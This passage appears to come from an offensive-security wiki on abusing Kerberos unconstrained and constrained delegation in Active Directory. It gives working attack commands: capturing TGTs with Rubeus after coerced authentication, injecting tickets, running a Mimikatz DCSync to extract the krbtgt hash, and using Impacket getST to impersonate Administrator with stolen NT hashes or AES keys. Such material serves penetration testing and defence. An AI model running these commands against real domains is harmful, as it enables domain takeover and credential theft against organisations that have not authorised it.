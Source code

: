 ```bash
Rubeus.exe monitor /interval:5
```

Once the monitor is ready, a [forced authentication attack](../coerced-authentications/) \(e.g. [PrinterBug](../coerced-authentications/#ms-rprn-abuse-a-k-a-printer-bug), [PrivExchange](../coerced-authentications/#pushsubscription-abuse-a-k-a-privexchange)\) can be operated. Rubeus will then receive an authentication \(hence a TGS, containing a TGT\). The TGT can be used to request a TGS for another service.

```bash
Rubeus.exe asktgs /ticket:$base64_extracted_TGT /service:$target_SPN /ptt
```

Once the ticket is injected, it can natively be used when accessing a service, for example with [Mimikatz](https://github.com/gentilkiwi/mimikatz) to extract the `krbtgt` hash.

```bash
lsadump::dcsync /dc:$DomainController /domain:$DOMAIN /user:krbtgt
```
{% endtab %}
{% endtabs %}

There is also another attack based on unconstrained delegations, the [MachineAccontQuota](../domain-settings/machineaccountquota.md) domain-level attribute and the `SeEnableDelegationPrivilege` user right.

### Constrained Delegations

If a service account, configured with constrained delegation to another service, is compromised, an attacker can impersonate any user \(e.g. domain admin\) in the environment to access the second service.

* If the service is configured with constrained delegation **without protocol transition**, then it works similarly to unconstrained delegation. The attacker controlled service needs to receive a user's TGS in order to  use the embedded TGT as an identity proof. "Without protocol transition" means the Kerberos authentication protocol needs to be used all the way.
* If the service is configured with constrained delegation **with protocol transition** then it doesn't need that user's TGS. It can obtain it with a S4U2Self request and then use it with a S4U2Proxy request. The identity proof can either be a password, an NT hash or an AES key.

Once the final "impersonating" ticket is obtained, it can be used with [Pass-the-Ticket](pass-the-ticket.md) to access the target service.

{% tabs %}
{% tab title="UNIX-like" %}
The [Impacket](https://github.com/SecureAuthCorp/impacket) script [getST](https://github.com/SecureAuthCorp/impacket/blob/master/examples/getST.py) \(Python\) can perform all the necessary steps to obtain the final "impersonating" TGS \(in this case, "Administrator" is impersonated/delegated account but it can be any user in the environment\).

The input credentials are those of the compromised service account configured with constrained delegations.

```bash
# with an NT hash
getST.py -spn $Target_SPN -impersonate Administrator -dc-ip $Domain_controller -hashes :$Controlled_service_NThash $Domain/$Controlled_service_account

# with an AES (128 or 256 bits) key
getST.py -spn $Target_SPN -impersonate Administrator -dc-ip $Domain_controller -aesKey $Controlled_service_AES_key $Domain/$Controlled_service_account
```
